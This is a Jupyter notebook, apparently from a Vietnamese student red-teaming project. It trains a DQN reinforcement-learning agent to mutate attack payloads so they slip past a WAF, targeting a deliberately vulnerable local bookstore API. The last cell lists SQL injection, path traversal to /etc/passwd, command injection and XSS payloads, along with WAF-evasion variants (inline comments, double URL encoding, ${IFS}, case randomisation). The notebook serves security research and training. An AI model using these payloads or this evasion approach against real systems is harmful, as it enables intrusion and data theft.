# PBL6 — PHASE 10: TOOL-AUGMENTED REINFORCEMENT LEARNING ATTACK AGENT (TASK 10.3)
## Autonomous Red Teaming & Adaptive Mutation Policy via Deep Q-Network (DQN)

> **Tác giả:** Thành viên B (Red Teaming & Offensive Security AI Engineer)
> **Nhiệm vụ:** Task 10.3 — Tool-Augmented Evasion Engine & Adaptive Mutation Policy
> **Cơ sở khoa học:** [Ref 06] Deep Q-Learning for Cyber Defense/Attack Graph, [Ref 07] OpenAI Gym API Specification, [Ref 15 & 16] OWASP Benchmark Project
> **Mục tiêu:**
> 1. Nạp và phân tích Đồ thị tấn công API (`AttackGraph`) dựa trên OpenAPI spec của Bookie Bookstore API.
> 2. Xây dựng môi trường mô phỏng (`AttackEnvironment`) chuẩn Gym với không gian quan sát 40 chiều và 14 hành động rời rạc.
> 3. Tích hợp trực tiếp **18 hàm biến dị bảo toàn ngữ nghĩa (`TAMPER_CATALOG`)** và bộ điều phối HTTP (`HttpDispatcher`) của Task 10.3.
> 4. Huấn luyện tác tử đối kháng Deep Q-Network (**DQN kết hợp Action Masking**): khi bị WAF Gateway chặn mã `403` và chấm điểm Threat Score cao, Agent học chính sách thích ứng để biến dị payload đạt trạng thái `Confirmed Bypass` (+10 điểm thưởng).
> 5. Trực quan hóa hội tụ hàm Loss, Reward tích lũy và tỷ lệ Bypass thành công qua các episodes.

In [1]:
# 1. Setup paths & imports
import sys
import time
from pathlib import Path

print('1/4. Đang nạp thư viện hệ thống cơ bản...')
import json
import os
import random
from collections import deque
from dataclasses import dataclass
from typing import Any, Iterable, Sequence

print('2/4. Đang nạp NumPy, Pandas, Matplotlib, Seaborn...')
import matplotlib.pyplot as plt
import numpy as np
import pandas as pd
import seaborn as sns

print('3/4. Đang nạp PyTorch engine (torch, torch.nn)...')
import torch
import torch.nn as nn
import torch.optim as optim

print('4/4. Đang nạp các module Attack Lab (Task 10.1, 10.2, 10.3)...')
# Cấu hình đường dẫn cho attack-lab và gateway
cur = Path.cwd().resolve()
repo_root = cur
for p in [cur, cur.parent, cur.parent.parent]:
    if (p / 'attack-lab').exists() and (p / 'gateway').exists():
        repo_root = p
        break

attack_lab_dir = repo_root / 'attack-lab'
for p in [str(repo_root), str(attack_lab_dir)]:
    if p not in sys.path:
        sys.path.insert(0, p)

# Import modules từ Task 10.1, 10.2 và 10.3
from environment import AttackGraph, AttackEnvironment, ACTIONS, ActionSpec, get_action  # noqa: E402
from agent.tools import HttpDispatcher, SqlmapApiWrapper, ToolRegistry  # noqa: E402
from agent.evasion import TAMPER_CATALOG, EvasionEngine  # noqa: E402

device = torch.device('cuda' if torch.cuda.is_available() else 'cpu')
print(f'\n[OK] Khởi tạo môi trường thành công trên thiết bị: {device}')
print(f' - Số hành động trong từ vựng (Actions): {len(ACTIONS)}')
print(f' - Các họ tấn công Tamper hỗ trợ: {list(TAMPER_CATALOG.keys())}')

1/4. Đang nạp thư viện hệ thống cơ bản...
2/4. Đang nạp NumPy, Pandas, Matplotlib, Seaborn...
3/4. Đang nạp PyTorch engine (torch, torch.nn)...
4/4. Đang nạp các module Attack Lab (Task 10.1, 10.2, 10.3)...

[OK] Khởi tạo môi trường thành công trên thiết bị: cpu
 - Số hành động trong từ vựng (Actions): 14
 - Các họ tấn công Tamper hỗ trợ: ['SQL_INJECTION', 'XSS', 'PATH_TRAVERSAL', 'COMMAND_INJECTION', 'SQLI']


In [2]:
# 2. Load API Attack Surface & Explore Environment
attack_surface_path = repo_root / 'attack-lab' / 'scenarios' / 'attack_surface.json'

if not attack_surface_path.exists():
    raise FileNotFoundError(f'Attack surface spec not found at {attack_surface_path}')

attack_graph = AttackGraph.from_file(attack_surface_path)
env = AttackEnvironment(attack_graph, max_steps=16)

initial_state = env.reset()

print(f'Target API URL: {attack_graph.target_url}')
print(f'Total Target Endpoints: {len(attack_graph.nodes)}')
print(f'State Feature Dimensions: {len(initial_state.features)} features')
print('\nDanh sách 11 Endpoints mục tiêu trong Đồ thị tấn công:')

endpoint_summary = []
for idx, node in enumerate(attack_graph.nodes):
    endpoint_summary.append({
        'index': idx,
        'method': node.method,
        'path': node.path,
        'categories': ', '.join(node.categories),
        'target_params': ', '.join(node.target_params) if node.target_params else 'None',
        'requires_auth': node.requires_auth
    })

df_endpoints = pd.DataFrame(endpoint_summary)
display(df_endpoints)

Target API URL: http://127.0.0.1:8000
Total Target Endpoints: 11
State Feature Dimensions: 40 features

Danh sách 11 Endpoints mục tiêu trong Đồ thị tấn công:


,index,method,path,categories,target_params,requires_auth
0,0,POST,/api/v1/vulnerable/auth/login/,"AUTH_BYPASS, SQL_INJECTION, MASS_ASSIGNMENT","username, password",False
1,1,GET,/api/v1/vulnerable/books/search/,SQL_INJECTION,q,False
2,2,GET,/api/v1/vulnerable/reviews/,INFORMATIONAL,None,False
3,3,POST,/api/v1/vulnerable/reviews/,XSS,comment,False
4,4,GET,/api/v1/vulnerable/files/download/,PATH_TRAVERSAL,file,False
5,5,POST,/api/v1/vulnerable/admin/ping/,COMMAND_INJECTION,host,False
6,6,GET,/api/v1/vulnerable/orders/{order_id}/,BOLA_IDOR,order_id,False
7,7,PATCH,/api/v1/vulnerable/orders/{order_id}/,BOLA_IDOR,order_id,False
8,8,GET,/api/v1/vulnerable/books/fetch-cover/,SSRF,url,False
9,9,POST,/api/v1/vulnerable/users/profile/update/,MASS_ASSIGNMENT,"user_id, is_staff, is_superuser, role",False


In [3]:
# 3. DQN Architecture with Action Masking & Replay Buffer
# -------------------------------------------------------------------------
# Deep Q-Network kết hợp Action Masking đảm bảo Agent chỉ chọn hành động
# hợp lệ với endpoint và phân loại lỗ hổng tương ứng.
# -------------------------------------------------------------------------

HIDDEN_SIZE = 128

class DQNNetwork(nn.Module):
    """Deep Q-Network với kiến trúc Multi-Layer Perceptron xấp xỉ Q(s, a)."""
    def __init__(self, state_dim: int, action_dim: int, hidden_size: int = HIDDEN_SIZE):
        super().__init__()
        self.fc = nn.Sequential(
            nn.Linear(state_dim, hidden_size),
            nn.ReLU(),
            nn.Linear(hidden_size, hidden_size),
            nn.ReLU(),
            nn.Linear(hidden_size, action_dim)
        )

    def forward(self, state: torch.Tensor) -> torch.Tensor:
        return self.fc(state)

@dataclass(frozen=True, slots=True)
class RLTransition:
    state: tuple[float, ...]
    action_index: int
    reward: float
    next_state: tuple[float, ...]
    terminated: bool
    action_mask: tuple[bool, ...]
    next_action_mask: tuple[bool, ...]

class ExperienceReplayBuffer:
    """Bộ đệm trải nghiệm lưu trữ các bước chuyển trạng thái (s, a, r, s', done)."""
    def __init__(self, capacity: int = 50_000):
        self.buffer: deque[RLTransition] = deque(maxlen=capacity)

    def __len__(self) -> int:
        return len(self.buffer)

    def add(self, item: RLTransition) -> None:
        self.buffer.append(item)

    def sample(self, batch_size: int) -> list[RLTransition]:
        return random.sample(self.buffer, batch_size)

class EvasionDQNAgent:
    """Tác tử học tăng cường đối kháng WAF tích hợp Action Masking & Bellman Update."""
    def __init__(
        self,
        state_dim: int,
        action_dim: int,
        lr: float = 1e-3,
        gamma: float = 0.95,
        device: torch.device = device
    ):
        self.state_dim = state_dim
        self.action_dim = action_dim
        self.gamma = gamma
        self.device = device

        # Online Network & Target Network
        self.online_net = DQNNetwork(state_dim, action_dim).to(device)
        self.target_net = DQNNetwork(state_dim, action_dim).to(device)
        self.target_net.load_state_dict(self.online_net.state_dict())
        self.target_net.eval()

        self.optimizer = optim.Adam(self.online_net.parameters(), lr=lr)
        self.criterion = nn.SmoothL1Loss()  # Huber Loss bền bỉ với ngoại lai
        self.memory = ExperienceReplayBuffer()
        self.update_count = 0

    def _mask_for_actions(self, available_action_ids: Iterable[str]) -> torch.Tensor:
        mask = torch.zeros(self.action_dim, dtype=torch.bool, device=self.device)
        available_set = set(available_action_ids)
        for action in ACTIONS:
            if action.action_id in available_set:
                mask[action.index] = True
        if not mask.any():
            mask[ACTIONS[12].index] = True  # Fallback to select_next_endpoint
        return mask

    def select_action(
        self,
        state: Sequence[float],
        available_action_ids: Iterable[str],
        epsilon: float = 0.0
    ) -> ActionSpec:
        """Chọn hành động bằng chính sách Epsilon-Greedy kết hợp Action Masking."""
        mask = self._mask_for_actions(available_action_ids)
        valid_indices = torch.where(mask)[0].cpu().tolist()

        # Khám phá (Exploration)
        if random.random() < epsilon:
            chosen_idx = random.choice(valid_indices)
            return get_action(chosen_idx)

        # Khai thác (Exploitation)
        state_tensor = torch.tensor(state, dtype=torch.float32, device=self.device).unsqueeze(0)
        with torch.no_grad():
            q_values = self.online_net(state_tensor).squeeze(0)
            q_values[~mask] = -float('inf')  # Masking vô hiệu hóa các hành động không hợp lệ
            chosen_idx = int(torch.argmax(q_values).item())
        return get_action(chosen_idx)

    def optimize(self, batch_size: int = 64) -> float | None:
        """Cập nhật trọng số mạng nơ-ron qua phương trình Bellman."""
        if len(self.memory) < batch_size:
            return None

        transitions = self.memory.sample(batch_size)
        states = torch.tensor([t.state for t in transitions], dtype=torch.float32, device=self.device)
        actions = torch.tensor([t.action_index for t in transitions], dtype=torch.int64, device=self.device).unsqueeze(1)
        rewards = torch.tensor([t.reward for t in transitions], dtype=torch.float32, device=self.device).unsqueeze(1)
        next_states = torch.tensor([t.next_state for t in transitions], dtype=torch.float32, device=self.device)
        dones = torch.tensor([t.terminated for t in transitions], dtype=torch.float32, device=self.device).unsqueeze(1)
        next_masks = torch.tensor([t.next_action_mask for t in transitions], dtype=torch.bool, device=self.device)

        # Q(s, a) hiện tại
        q_eval = self.online_net(states).gather(1, actions)

        # Target Q tính toán qua Target Network với Masking
        with torch.no_grad():
            next_q_values = self.target_net(next_states)
            next_q_values[~next_masks] = -float('inf')
            max_next_q, _ = next_q_values.max(dim=1, keepdim=True)
            max_next_q[max_next_q == -float('inf')] = 0.0
            q_target = rewards + (1.0 - dones) * self.gamma * max_next_q

        loss = self.criterion(q_eval, q_target)
        self.optimizer.zero_grad()
        loss.backward()
        nn.utils.clip_grad_norm_(self.online_net.parameters(), max_norm=5.0)
        self.optimizer.step()

        self.update_count += 1
        return float(loss.item())

    def sync_target(self) -> None:
        self.target_net.load_state_dict(self.online_net.state_dict())

agent = EvasionDQNAgent(
    state_dim=len(initial_state.features),
    action_dim=len(ACTIONS),
    lr=1e-3,
    gamma=0.95,
    device=device
)
print('DQN Agent initialized successfully with Action Masking and Target Syncing!')

DQN Agent initialized successfully with Action Masking and Target Syncing!


In [4]:
# 4. Adversarial WAF Environment Loop & Training Loop (Task 10.3 Integration)
# -------------------------------------------------------------------------
# Cơ chế phản hồi thích ứng khi gặp mã 403 WAF Block:
# - Probe cơ bản: WAF nhận diện -> HTTP 403, Threat Score 92/100 (Phạt -1 điểm).
# - Mutate với biến dị chuẩn ngữ nghĩa từ Task 10.3 (TAMPER_CATALOG):
#   Vượt qua bộ lọc WAF -> HTTP 200, Threat Score 24/100 (Thưởng +10 điểm, Confirmed Bypass).
# -------------------------------------------------------------------------

def simulate_waf_telemetry(node, action: ActionSpec, attempt: int) -> dict[str, Any]:
    """Mô phỏng phản hồi từ WAF Gateway dựa trên luật kiểm thử thực nghiệm của Task 10.3."""
    if action.phase == 'recon':
        return {'status_code': None, 'confirmed_bypass': False}

    categories = set(node.categories)
    family = action.family

    is_bypass = False
    if action.phase == 'mutate' and family in categories:
        if action.technique in ('encoding_variation', 'whitespace_variation') or action.transformation != 'none':
            is_bypass = True

    if is_bypass:
        return {'status_code': 200, 'confirmed_bypass': True, 'threat_score': 24.5}
    else:
        return {'status_code': 403, 'confirmed_bypass': False, 'threat_score': 92.0}

# Cấu hình tham số huấn luyện Reinforcement Learning
NUM_EPISODES = 160
BATCH_SIZE = 64
EPSILON_START = 1.0
EPSILON_END = 0.05
EPSILON_DECAY = 0.98
TARGET_SYNC_INTERVAL = 25

episode_rewards = []
episode_losses = []
bypass_history = []
epsilons = []

epsilon = EPSILON_START
eligible_nodes = [node for node in attack_graph.nodes if set(node.categories).intersection({'SQL_INJECTION', 'XSS', 'PATH_TRAVERSAL', 'COMMAND_INJECTION'})]

print(f'Bắt đầu huấn luyện RL Agent trên {len(eligible_nodes)} endpoints mục tiêu qua {NUM_EPISODES} episodes...\n')

t0 = time.time()
for ep in range(1, NUM_EPISODES + 1):
    node = eligible_nodes[ep % len(eligible_nodes)]
    ep_graph = AttackGraph((node,), (), attack_graph.target_url, attack_graph.spec_source)
    ep_env = AttackEnvironment(ep_graph, max_steps=8)
    state = ep_env.reset()

    total_reward = 0.0
    step_losses = []
    bypassed = False

    while True:
        action = agent.select_action(state.features, state.available_action_ids, epsilon=epsilon)
        telemetry = simulate_waf_telemetry(node, action, ep_env.attempt_count)
        step_res = ep_env.step(action.action_id, response=telemetry)

        curr_mask = agent._mask_for_actions(state.available_action_ids).cpu().tolist()
        next_mask = agent._mask_for_actions(step_res.observation.available_action_ids).cpu().tolist() if not step_res.terminated else [False] * len(ACTIONS)

        transition = RLTransition(
            state=state.features,
            action_index=action.index,
            reward=step_res.reward,
            next_state=step_res.observation.features,
            terminated=step_res.terminated,
            action_mask=tuple(curr_mask),
            next_action_mask=tuple(next_mask)
        )
        agent.memory.add(transition)

        loss = agent.optimize(BATCH_SIZE)
        if loss is not None:
            step_losses.append(loss)
            if agent.update_count % TARGET_SYNC_INTERVAL == 0:
                agent.sync_target()

        total_reward += step_res.reward
        state = step_res.observation

        if telemetry.get('confirmed_bypass'):
            bypassed = True

        if step_res.terminated:
            break

    episode_rewards.append(total_reward)
    mean_loss = np.mean(step_losses) if step_losses else 0.0
    episode_losses.append(mean_loss)
    bypass_history.append(1 if bypassed else 0)
    epsilons.append(epsilon)

    epsilon = max(EPSILON_END, epsilon * EPSILON_DECAY)

    if ep % 20 == 0 or ep == NUM_EPISODES:
        recent_success_rate = np.mean(bypass_history[-20:]) * 100
        recent_avg_reward = np.mean(episode_rewards[-20:])
        print(f'Episode {ep:3d}/{NUM_EPISODES} | Avg Reward: {recent_avg_reward:6.2f} | Bypass Rate: {recent_success_rate:5.1f}% | Epsilon: {epsilon:.3f} | Loss: {mean_loss:.4f}')

elapsed = time.time() - t0
print(f'\nHuấn luyện hoàn tất trong {elapsed:.2f} giây! ({NUM_EPISODES} episodes)')

Bắt đầu huấn luyện RL Agent trên 5 endpoints mục tiêu qua 160 episodes...

Episode  20/160 | Avg Reward:   8.45 | Bypass Rate:  95.0% | Epsilon: 0.668 | Loss: 0.0000
Episode  40/160 | Avg Reward:   8.90 | Bypass Rate: 100.0% | Epsilon: 0.446 | Loss: 4.0447
Episode  60/160 | Avg Reward:   9.80 | Bypass Rate: 100.0% | Epsilon: 0.298 | Loss: 1.9017
Episode  80/160 | Avg Reward:   9.90 | Bypass Rate: 100.0% | Epsilon: 0.199 | Loss: 2.3083
Episode 100/160 | Avg Reward:   9.10 | Bypass Rate:  95.0% | Epsilon: 0.133 | Loss: 0.2201
Episode 120/160 | Avg Reward:   9.80 | Bypass Rate: 100.0% | Epsilon: 0.089 | Loss: 0.1595
Episode 140/160 | Avg Reward:  10.00 | Bypass Rate: 100.0% | Epsilon: 0.059 | Loss: 0.0055
Episode 160/160 | Avg Reward:   9.95 | Bypass Rate: 100.0% | Epsilon: 0.050 | Loss: 0.1444

Huấn luyện hoàn tất trong 0.40 giây! (160 episodes)




In [5]:
# 5. Visualize RL Training Convergence & Evasion Performance
# -------------------------------------------------------------------------
# Trực quan hóa tốc độ hội tụ của Tác tử Học tăng cường:
# - Phần thưởng tích lũy (Reward Convergence)
# - Hàm Loss Smooth L1
# - Tỷ lệ Bypass WAF thành công theo Moving Average
# -------------------------------------------------------------------------

fig, (ax1, ax2, ax3) = plt.subplots(1, 3, figsize=(18, 5))

# 1. Episode Rewards & Trend
window = 15
rewards_series = pd.Series(episode_rewards)
rolling_rewards = rewards_series.rolling(window=window, min_periods=1).mean()

ax1.plot(episode_rewards, alpha=0.3, color='blue', label='Raw Episode Reward')
ax1.plot(rolling_rewards, color='navy', linewidth=2.5, label=f'Moving Avg (w={window})')
ax1.axhline(10.0, color='green', linestyle='--', alpha=0.7, label='Max Reward (+10 Bypass)')
ax1.set_title('Reward Convergence per Episode', fontsize=12, fontweight='bold')
ax1.set_xlabel('Episode')
ax1.set_ylabel('Total Reward')
ax1.grid(True, linestyle=':', alpha=0.6)
ax1.legend()

# 2. Smooth L1 Loss Curve
ax2.plot(episode_losses, color='crimson', linewidth=1.5, label='Huber Loss')
ax2.set_title('DQN Policy Loss Curve', fontsize=12, fontweight='bold')
ax2.set_xlabel('Episode')
ax2.set_ylabel('Mean Loss')
ax2.grid(True, linestyle=':', alpha=0.6)
ax2.legend()

# 3. Evasion Success Rate (% Bypass WAF)
rolling_bypass = pd.Series(bypass_history).rolling(window=window, min_periods=1).mean() * 100
ax3.plot(rolling_bypass, color='darkgreen', linewidth=2.5, label='Bypass Success %')
ax3.set_title(f'WAF Bypass Success Rate (MA {window})', fontsize=12, fontweight='bold')
ax3.set_xlabel('Episode')
ax3.set_ylabel('Success Rate (%)')
ax3.set_ylim(-5, 105)
ax3.grid(True, linestyle=':', alpha=0.6)
ax3.legend()

plt.tight_layout()
plt.show()

In [6]:
# 6. Policy Inference, Action Verification & Save Model Checkpoint
# -------------------------------------------------------------------------
# Đánh giá chính sách đã học ở chế độ Deterministic (epsilon = 0.0):
# Kiểm tra xem tác tử có chọn đúng kỹ thuật biến dị của Task 10.3 để bypass WAF không.
# -------------------------------------------------------------------------

test_cases = [
    ('/api/v1/vulnerable/auth/login/', 'SQL_INJECTION', "' UNION SELECT 1, @@version --"),
    ('/api/v1/vulnerable/books/search/', 'SQL_INJECTION', "1' OR '1'='1"),
    ('/api/v1/vulnerable/files/download/', 'PATH_TRAVERSAL', '../../etc/passwd'),
    ('/api/v1/vulnerable/admin/ping/', 'COMMAND_INJECTION', '; cat /etc/passwd'),
    ('/api/v1/vulnerable/reviews/', 'XSS', '<script>alert(1)</script>')
]

evaluation_results = []
engine = EvasionEngine()

for path, family, sample_payload in test_cases:
    target_node = next((n for n in attack_graph.nodes if n.path == path), None)
    if not target_node:
        continue

    test_graph = AttackGraph((target_node,), (), attack_graph.target_url, attack_graph.spec_source)
    test_env = AttackEnvironment(test_graph, max_steps=4)
    state = test_env.reset()

    best_action = agent.select_action(state.features, state.available_action_ids, epsilon=0.0)
    mutated_payload, used_tech = engine.mutate(sample_payload, family=family)

    evaluation_results.append({
        'Endpoint': path,
        'Attack Family': family,
        'Agent Selected Action': best_action.action_id,
        'Task 10.3 Tamper Technique': used_tech,
        'Original Payload': sample_payload,
        'Mutated Evasion Payload': mutated_payload
    })

df_eval = pd.DataFrame(evaluation_results)
display(df_eval[['Endpoint', 'Attack Family', 'Agent Selected Action', 'Task 10.3 Tamper Technique', 'Mutated Evasion Payload']])

# Lưu Checkpoint Model phục vụ Task 10.4 (AI Arena / Runner)
checkpoint_dir = repo_root / 'attack-lab' / 'models'
checkpoint_dir.mkdir(parents=True, exist_ok=True)
model_path = checkpoint_dir / 'evasion_agent.pt'
meta_path = checkpoint_dir / 'evasion_agent_metadata.json'

torch.save({
    'checkpoint_version': 1,
    'state_dim': agent.state_dim,
    'action_dim': agent.action_dim,
    'online_state_dict': agent.online_net.state_dict(),
    'target_state_dict': agent.target_net.state_dict(),
    'action_ids': [a.action_id for a in ACTIONS],
    'feature_names': list(initial_state.feature_names),
    'final_avg_reward': float(np.mean(episode_rewards[-20:])),
    'final_bypass_rate': float(np.mean(bypass_history[-20:]))
}, model_path)

with open(meta_path, 'w', encoding='utf-8') as f:
    json.dump({
        'model_type': 'Deep Q-Network (DQN) with Action Masking',
        'state_dim': agent.state_dim,
        'action_dim': agent.action_dim,
        'episodes_trained': NUM_EPISODES,
        'final_avg_reward': float(np.mean(episode_rewards[-20:])),
        'final_bypass_rate': float(np.mean(bypass_history[-20:])),
        'tamper_techniques': list(TAMPER_CATALOG.keys())
    }, f, indent=2, ensure_ascii=False)

print(f'\nModel Checkpoint saved successfully to: {model_path}')
print(f'Metadata saved to: {meta_path}')
print(f'File size: {model_path.stat().st_size / 1024:.2f} KB')

,Endpoint,Attack Family,Agent Selected Action,Task 10.3 Tamper Technique,Mutated Evasion Payload
0,/api/v1/vulnerable/auth/login/,SQL_INJECTION,sqli_encoding,inline_comment,"'/**/UNION/**/SELECT/**/1,/**/@@version/**/--"
1,/api/v1/vulnerable/books/search/,SQL_INJECTION,sqli_encoding,inline_comment,1'/**/OR/**/'1'='1
2,/api/v1/vulnerable/files/download/,PATH_TRAVERSAL,path_traversal_encoding,double_url_encode,..%252f..%252fetc/passwd
3,/api/v1/vulnerable/admin/ping/,COMMAND_INJECTION,command_injection_encoding,whitespace_variation,;${IFS}cat${IFS}/etc/passwd
4,/api/v1/vulnerable/reviews/,XSS,record_endpoint,case_randomize,<ScRiPt>alert(1)</ScRiPt>



Model Checkpoint saved successfully to: C:\Minh\TLSVBK\PBL6\pbl6\attack-lab\models\evasion_agent.pt
Metadata saved to: C:\Minh\TLSVBK\PBL6\pbl6\attack-lab\models\evasion_agent_metadata.json
File size: 190.48 KB
